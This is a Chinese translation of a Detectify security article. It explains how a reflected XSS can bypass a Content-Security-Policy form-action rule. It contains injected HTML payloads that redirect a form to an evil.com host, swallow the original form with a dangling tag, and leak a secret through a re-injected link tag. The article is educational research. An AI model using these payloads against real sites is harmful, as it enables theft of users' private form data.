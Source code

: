 # 利用反射型XSS二次注入绕过CSP form-action限制

翻译:[SecurityToolkit](http://weibo.com/u/5824380435)

0x01 简单介绍
=========

* * *

CSP(Content-Security-Policy)是为了缓解XSS而存在的一种策略, 开发者可以设置一些规则来限制页面可以加载的内容.那文本中所说的form-action又是干啥的呢?用他可以限制form标签"action"属性的指向页面, 这样可以防止攻击者通过XSS修改表单的"action"属性,偷取用户的一些隐私信息.

0x02 实例分析
=========

* * *

上面讲的太抽象了, 如果不想看的话可以直接跳过....具体一点, 现在使用的是chrome浏览器, 假设下面这个secret.html是可能被XSS攻击的

```
//XSS在这里, victim.com/secret.html?xss=xss
<form method="POST" id='subscribe' action='oo.html'>
  <input name='secret' value='xiao_mi_mi'/>         //小秘密

```

如果这个站点没有CSP, 攻击者可以直接通过XSS修改

```
<form method="POST" action='http://evil.com/wo_de_mi_mi.php'>   //我的秘密

```

当用户傻傻地进行"正常'操作时,小秘密已经悄然变成攻击者的秘密了.然后,有一个管理员试图用CSP防止这个问题, 他使用白名单策略限制外部JS的加载并且不允许内联脚本, 好像安全性高了一点.

攻击者想了下, 把页面改成下面这个样子

```
<div><form action='http://evil.com/wo_de_mi_mi.php'></div>
<form method='POST' id='subscribe' action='oo.html'>

```

在原本的form之前又加了一个form标签, 这个新的form标签没有闭合,并且直接碰到了老form标签, 这个时候会发生什么呢?

![Screen Shot 2016-04-10 at 19.25.02](http://drops.javaweb.org/uploads/images/31acf41d80c908456739569042717add77e55c35.jpg)

老form标签就这样消失了! 所以攻击者再次把用户的小秘密发送到了自己的服务器上, 而且这时本来应该是POST的secret因为老form标签的消失现在变成了GET发送, 请求变成了下面这样.

![Screen Shot 2016-04-10 at 19.25.02](http://drops.javaweb.org/uploads/images/c65741b88c40e3f46fd51d10ea419c5ebb58b6dc.jpg)

这下管理员郁闷了, 最后索性用CSP加上了form-action来白名单限定form标签的action指向, 那么这样是否还会出现问题呢?

一起来回顾一下, 现在有一个不能执行JS的反射型XSS和一个只能往白名单域名(当然没有攻击者域名...)指向的form标签.

原secret.html

```
// XSS位置, victim.com/secret.html?xss=xss
<form method="POST" id='subscribe' action='oo.html'>
  <input name='secret' value='xiao_mi_mi'/>

```

最后攻击者的改过的页面如下

```
<input value='ByPass CSP' type='submit' form='subscribe' formaction='' formmethod='GET' />
<input type='hidden' name='xss' form='subscribe' value="<link rel='subresource' href='http://evil.com/wo_de_mi_mi.php'>">
// XSS, victim.com/secret.html?xss=xss
<form method="POST" id='subscribe' action='oo.html'>
  <input type='hidden' name='secret' value='xiao_mi_mi'/>
</form>

```

这里有几处tricky的地方, 整个代码的步骤如下

1.  input标签的form/formmethod/formaction将老form POST到oo.html的secret变成GET发送到secret.html即当前页面.
    
2.  跳转后仍处于secret.html因此该页面的XSS还可以被二次利用注入恶意标签, 这里又利用第二个input标签增加GET请求的xss参数, 所以跳转之后的URL变为
    
    ```
    http://victim.com/secret.html?secret=xiao_mi_mi&xss=<link rel='subresource' href='http://evil.com/wo_de_mi_mi.php'>
    
    ```
3.  此时secret.html再次触发XSS, 被攻击者加入下面标签
    
    ```
    <link rel='subresource' href='http://evil.com/wo_de_mi_mi.php'>
    
    ```
4.  ![Screen Shot 2016-04-10 at 20.12.36](http://drops.javaweb.org/uploads/images/4f94dd59cdb679fb79b82d8a35e8406db5e87924.jpg)
    

正是最后这个link标签泄露了本该POST发送的secret, 攻击者通过利用一个反射型XSS将CSP的form-action绕过.

0x03 最后
=======

* * *

CSP能够从某种程度上限制XSS, 对网站的防护是很有益义的. 不过相比国外经常能够看到相关的讨论,国内CSP的推进和热度却是比较不尽人意的, 同时关于CSP也有很多有意思的安全点, 特此翻译出来以供大家学习和参考.

原文链接:[https://labs.detectify.com/2016/04/04/csp-bypassing-form-action-with-reflected-xss/](https://labs.detectify.com/2016/04/04/csp-bypassing-form-action-with-reflected-xss/)